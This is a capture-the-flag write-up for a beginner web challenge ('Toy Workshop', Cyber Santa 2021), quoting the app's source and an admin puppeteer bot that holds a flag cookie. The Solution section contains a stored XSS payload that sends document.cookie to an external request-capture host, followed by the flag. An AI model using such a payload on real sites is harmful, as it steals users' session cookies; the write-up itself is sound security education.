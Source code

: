 # Cyber Sanra 2021 – Toy Workshop

- **Category:** Web Day 1
- **Points:** 300
- **Difficulty:** ★☆☆☆

## Challenge

We are given a nicely animated website where we are able to send "queries" to the manager via an input box.
![input form](./images/1.png)

We are also given the source code of the website so we can see where the flag is hidden and what it might be vulnerable to.

The server was using SQLite as a database and using prepared statements which meant that it was not vulnerable to SQL Injection.

```
async addQuery(query) {
    return new Promise(async (resolve, reject) => {
      try {
        let stmt = await this.db.prepare(
          "INSERT INTO queries (query) VALUES (?)"
        );
        console.log("db query is here:", query);
        resolve(await stmt.run(query));
      } catch (e) {
        reject(e);
      }
    });
  }

  async getQueries() {
    return new Promise(async (resolve, reject) => {
      try {
        let stmt = await this.db.prepare("SELECT * FROM queries");
        resolve(await stmt.all());
      } catch (e) {
        reject(e);
      }
    });
  }
```

The important part about the source code was that it showed that the flag was hidden in the cookies of the "admin" that was launching a headless browser puppeteer to view the queries.

```
const cookies = [{
	'name': 'flag',
	'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];


const readQueries = async (db) => {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		await page.goto('http://127.0.0.1:1337/');
		await page.setCookie(...cookies);
		await page.goto('http://127.0.0.1:1337/queries', {
			waitUntil: 'networkidle2'
		});
		await browser.close();
		await db.migrate();
};
```

## Solution

Given that the cookies was on the "admin" that was launching. I needed a way to conduct XSS on the admin that was viewing my "query".
Using this payload

```
document.write(new Image().src="https://asdfasdfasdf.free.beeceptor.com/" + document.cookie)
```

and a tool online called [beeceptor](https://beeceptor.com/) to capture api requests. I saw the flag soon after.

!["flag](./images/2.png)

```
HTB{3v1l_3lv3s_4r3_r1s1ng_up!}
```

## Thoughts

- Quite a simple introduction to XSS
- Introduced me to the beeceptor tool as opposed to the slightly more tedious way of setting up a [ngrok](https://ngrok.com/) server

